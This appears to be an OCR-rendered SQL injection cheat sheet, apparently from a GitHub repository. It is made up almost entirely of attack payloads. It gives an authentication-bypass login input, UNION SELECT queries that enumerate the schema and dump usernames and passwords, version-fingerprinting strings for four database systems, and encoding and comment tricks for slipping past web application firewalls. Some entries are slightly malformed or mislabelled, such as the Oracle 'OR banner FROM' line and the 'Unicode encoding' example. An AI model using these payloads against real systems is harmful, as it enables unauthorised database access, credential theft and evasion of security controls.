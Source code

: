 ### Authentication Bypass

```sql
username: admin' -- -
password: anything
```

### Data Exfiltration
```sql
' UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema=database() -- -
' UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users' -- -
' UNION SELECT username,password,3 FROM users -- -
```

### Database Fingerprinting

- **MySQL**:
  ```sql
  ' OR @@version -- -
  ' UNION SELECT version(),2,3 -- -
  ```
- **MSSQL**:
  ```sql
  ' OR @@version -- -
  ' UNION SELECT @@version,2,3 -- -
  ```
- **PostgreSQL**:
  ```sql
  ' OR version() -- -
  ' UNION SELECT version(),2,3 -- -
  ```
- **Oracle**:
  ```sql
  ' OR banner FROM v$version WHERE rownum=1 -- -
  ' UNION SELECT banner,2,3 FROM v$version -- -
  ```

## WAF Bypass Techniques

### 1. String Obfuscation
- **Case switching**: `UnIoN SeLeCt`
- **URL encoding**: `%55%4E%49%4F%4E%20%53%45%4C%45%43%54`
- **Double URL encoding**: `%2555%254E%2549%254F%254E`
- **Unicode encoding**: `uni/**/on sel/**/ect`
- **Comment injection**: `UN/**/ION SEL/**/ECT`
- **Whitespace variants**: Replace spaces with tabs, line breaks, comments

### 2. Logic Alternatives
- Replace `OR 1=1` with `OR 1<2`
- Replace `=` with `LIKE` or `REGEXP`
- Use `/*!50000 UNION*/` for MySQL version-based comments
